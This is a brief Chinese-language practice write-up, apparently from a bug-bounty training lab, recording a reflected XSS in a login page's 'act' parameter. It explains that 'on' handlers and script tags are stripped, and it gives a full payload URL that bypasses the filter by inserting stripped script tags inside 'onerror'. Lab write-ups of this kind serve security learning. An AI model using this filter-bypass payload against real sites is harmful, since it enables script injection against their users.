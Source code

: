 该靶场有好几个xss，还有越权
目前找到一个xss
# xss1
主页点击login并且填入账号密码，burp抓到包?act=login
发现login是反射点
尝试?act=xxx
![[Pasted image 20240910091543.png]]
尝试`<img src=1 onerror=alert() >`
发现on+字符会置空，还有script标签也会置空
经过一小时尝试
payload：
`https://www.bugbountytraining.com/fastfoodhackings/index.php?act=xxx--%3E%3Cimg%20src=1%20o%3Cscript%3Ener%3Cscript%3Eror=alert()%3E\\`
在on之间插入置空的<script>

